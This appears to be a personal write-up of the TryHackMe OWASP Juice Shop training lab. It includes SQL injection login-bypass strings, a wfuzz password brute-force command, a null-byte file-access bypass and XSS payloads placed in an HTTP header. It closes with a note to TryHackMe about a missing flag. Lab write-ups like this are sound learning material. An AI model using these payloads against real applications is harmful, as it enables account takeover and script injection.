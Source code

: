 ```yaml
---
tags:
---
```


**Machine name**: reqres.in
**Difficulty**: sperm (extremly easy)
**CWE-list**: 

-----

This was done by following the steps on https://tryhackme.com/r/room/owaspjuiceshop, there is much better explained everything, so i recomend to do it from here and if you want it you could check the comands i use to do it, which differ a lil bit from those on the page
### Recon
Go through the UI with burpsuite growing the HTTP history

### SQLI

You log by default as an admin, so put this in the username field
```
' or 1=1--
```
Log as Bender
```
bender@juice-sh.op'-- -
```

### BOLA
You could bruteforce that using wfuzz, redirecting the output to a file, but i'd prefer to send them to caido, as localhost:8081, and saw them on the HTTP history
```sh
wfuzz -u http://10.10.96.201/rest/user/login -d '{"email":"admin@juice-sh.op","password":"FUZZ"}' -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt -H "Content-Type: application/json" -p localhost:8081
```
And then filter by the 200 status code response
On the other hand, to 

### Information Disclosure
The methodology to solve this was to read the avaible content, continuing exploring the website.
TO solve that part download certain confidential document:
```sh
wget http://10.10.235.245/ftp/acquisitions.md 
```
Downloas a backup using an Null byte [[Injection]]
```url
http://10.10.235.245/ftp/package.json.bak%2500.md
```
### Broken access control
Load the page with the source from the inspector open
![[Pasted image 20241101135255.png]]
And see the admin page
![[Pasted image 20241101135430.png]]
So request the `/#/administration` path, and get rid of the 5 stars commit

### Don't see the flags?
and if you don't see the flag try requesting the root page (`http://10.10.235.245` e,g.)

For the next flag you need to intercept the basket, and change 1 to 2, as says in [[Injection]]
>"*Try providing a string where a number is expected, a number where a string is expected, and a number or string where a Boolean value is expected. If an API is expecting a small number, send a large number, and if it expects a small string, send a large one*"

### XSS
XSS or Cross-site scripting is a vulnerability that allows attackers to run javascript in web applications. These are one of the most found bugs in web applications. Their complexity ranges from easy to extremely hard, as each web application parses the queries in a different way. 

**There are three major types of XSS attacks:**

|   |   |
|---|---|
|DOM (Special)|DOM XSS _(Document Object Model-based Cross-site Scripting)_ uses the HTML environment to execute malicious javascript. This type of attack commonly uses the _<script></script>_ HTML tag.|
|Persistent (Server-side)|Persistent XSS is javascript that is run when the server loads the page containing it. These can occur when the server does not sanitise the user data when it is **uploaded** to a page. These are commonly found on blog posts.|
|Reflected (Client-side)|Reflected XSS is javascript that is run on the client-side end of the web application. These are most commonly found when the server doesn't sanitise **search** data.|

Note that we are using **iframe** which is a common HTML element found in many web applications, there are others which also produce the same result. 

This type of XSS is also called XFS (Cross-Frame Scripting), is one of the most common forms of detecting XSS within web applications.

Websites that allow the user to modify the iframe or other DOM elements will most likely be vulnerable to XSS.   

**Why does this work?**

It is common practice that the search bar will send a request to the server in which it will then send back the related information, but this is where the flaw lies. Without correct input sanitation, we are able to perform an XSS attack against the search bar.

We control the IP parameter so when the admin try to access to he get the XSS
![[Pasted image 20241101150148.png]]
But the application is scaping the xss payload, so use this instead:
```http
True-Client-IP: <img src=x onerror=alert('XSS')>
```
then logout from the admin account if you are not logged and login after the request and go to the last ip page
![[Pasted image 20241101151250.png]]
### access to 
```
http://10.10.20.11//#/score-board
```

Hello dear team of TryHackMe, i start to do your rooms and i want to thank you because they are so useful and fun, is excellent content, however there's an issue in https://tryhackme.com/r/room/owaspjuiceshop room which i do not know if that is done in purspose, but the write up suggest me to do ip spoofing to trigger XSS with this payload `True-Client-IP: <iframe src="javascrip:alert(`xss`)"` but it's never triggered because it's scaped by the application, so i did `True-Client-IP: <img src=x onerror=alert('XSS')>` instead and the XSS alert get triggered successfully, but the flag never appear, even after load the root page, i don't know what's going wrong, so i wait for your answer. Many thanks for your time!